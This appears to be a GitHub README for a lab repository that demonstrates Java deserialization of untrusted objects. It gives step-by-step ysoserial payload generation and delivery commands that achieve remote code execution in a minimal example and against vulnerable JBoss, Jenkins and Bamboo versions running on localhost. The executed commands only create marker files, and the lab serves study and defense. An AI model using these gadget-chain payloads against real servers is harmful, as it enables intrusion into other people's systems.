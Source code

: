 Here there are practical examples of the - deserialization of untrusted objects - vulnerability.

These PoCs use the [ysoserial](https://github.com/frohoff/ysoserial/) tool to generate exploits.

# Pocs

Minimal Example
---------------------------------
- Use java 8
```
cd MinimalExample
java -jar ../ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections6 "/tmp/exploit.sh">payload.ser 
cp ./exploit.sh /tmp
chmod +x /tmp/exploit.sh
javac Employee.java
javac DeSerializingObject.java
java -classpath .:apache-collections-commons-collections-3.1.jar DeSerializingObject 
```
- You will find a file "pwned" in /tmp. This means that the attack has been completed correctly with a RCE.

JBOSS (CVE-2016-7065)
---------------------------------


- Download a vulnerable version of Jboss (in this case you can find the v5.1.0) 
- Check if you have installed the JDK 1.8
- Run jboss: ```java -jar ./JBoss/jboss-5.1.0.GA/bin/run.jar```
- Download and open Burp: setup your proxy on localhost:9090
- In your browser start proxy on localhost:9090
- Generate the payload with ysoserial: java -jar ysoserial.jar CommonsCollections5 "touch /tmp/JbossVulnerable.txt" > JbossPayload.ser or use the payload inside the folder JBoss
- Open localhost:8080/invoker/JMXInvokerServlet
- In Burp "paste from file" and choose JbossPayload.ser
- Checkout in /tmp folder the execution of "touch /tmp/JbossVulnerable.txt"



Jenkins (CVE-2015-8103)
---------------------------------

- Download a vulnerable version of Jenkins (in this case you can find the v1.649)
- Check if you have installed the JDK 1.8
```
java -jar ./jenkins-war-1.649.war
java -cp ysoserial-master-v0.0.5-gb617b7b-16.jar ysoserial.exploit.JenkinsListener http://localhost:8080 CommonsCollections5 "touch /tmp/JenkinsVulnerable.txt"
```


Bamboo (CVE-2015-6576)
---------------------------------

- Download and install openjdk 1.7 
- Download and install vulnerable version of Bamboo (v5.4.3 in this case) 
- Create folder /home/user/bamboohome/
- Add/update the property /Bamboo/atlassian-bamboo-5.4.3/atlassian-bamboo/WEB-INF/classes/bamboo-init.properties with
	bamboo.home=/home/user/bamboohome
- Get fingerprint -> localhost:8085/agentServer/GetFingerprint.action?agentType=elastic
- Generate payload with ysoserial
- Open localhost:8085/agentServer/message?fingerprint<copied fingerprint> and "copy from file" in burp
```java -jar ysoserial.jar CommonsCollections4 "touch /tmp/BambooVulnerable.txt" > BambooPayload.ser ```
  or use the payload inside the folder JBoss


# Ysoserial stacktraces

Find them in the /Ysoserial-stacktraces directory

# References and readings
https://github.com/EdoardoVignati/ysoserial/blob/master/biblio.bib

Other references:

- https://www.edoardovignati.it/how-to-install-old-versions-of-java-jdk/

- https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478

- https://askubuntu.com/questions/761127/how-do-i-install-openjdk-7-on-ubuntu-16-04-or-higher


# Defenses
- https://link.springer.com/chapter/10.1007/978-3-030-00470-5_21



